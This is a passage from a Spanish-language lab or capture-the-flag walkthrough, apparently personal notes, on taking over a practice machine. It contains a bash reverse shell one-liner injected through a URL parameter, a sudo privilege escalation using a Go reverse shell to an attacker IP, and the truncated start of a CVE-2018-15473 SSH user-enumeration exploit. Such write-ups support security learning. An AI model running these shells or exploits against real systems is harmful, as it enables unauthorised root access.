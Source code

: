 Y ejecutando este comando en el parámetro *cmd* de la URL:
```bash
bash -c "bash -i >& /dev/tcp/192.168.1.21/443 0>&1"
```
![[Pasted image 20240820153931.png]]

> [!NOTE] Hacemos el tratamiento de la TTY

![[Pasted image 20240820154426.png]]
![[Pasted image 20240820154502.png]]

## Escalada de privilegios
Una vez dentro de la máquina como usuario apache podemos probar de migrar a "achilles" con la contraseña que tenemos:
![[Pasted image 20240820155114.png]]

Una vez como "achilles" dentro de la máquina listamos los permisos a nivel de suoders y podemos ver como podemos ejecutar este binario de go: 
![[Pasted image 20240820161351.png]]

Por lo que podemos crear un archivo de go que ejecute comandos a nivel de sistema. Más concretamente que entable una reverse Shell:
```go
package main;
import "os/exec";
import "net";
func main(){
	c,_:=net.Dial("tcp","192.168.1.21:5000");
	cmd:=exec.Command("bash");
	cmd.Stdin=c;
	cmd.Stdout=c;
	cmd.Stderr=c;
	cmd.Run()
}
```

Sí ejecutamos el código en Go con *sudo* obtenemos una reverse Shell como *root*:
![[Pasted image 20240820161326.png]]
![[Pasted image 20240820161631.png]]

> [!NOTE] Volvemos a hacer el tratamiento de la TTY como antes.

Y si accedemos al directorio `/root` podemos visualizar la *flag*:
![[Pasted image 20240820161810.png]]

## Python script users enumeration via OpenSSH
```python
#!/usr/bin/env python2
# CVE-2018-15473 SSH User Enumeration by Leap Security (@LeapSecurity) https://leapsecurity.io
# Credits: Matthew Daley, Justin Gardner, Lee David Painter


import argparse, logging, paramiko, socket, sys, os

class InvalidUsername(Exception):
    pass

# malicious function to malform packet
def add_boolean(*args, **kwargs):
    pass

# function that'll be overwritten to malform the packet
```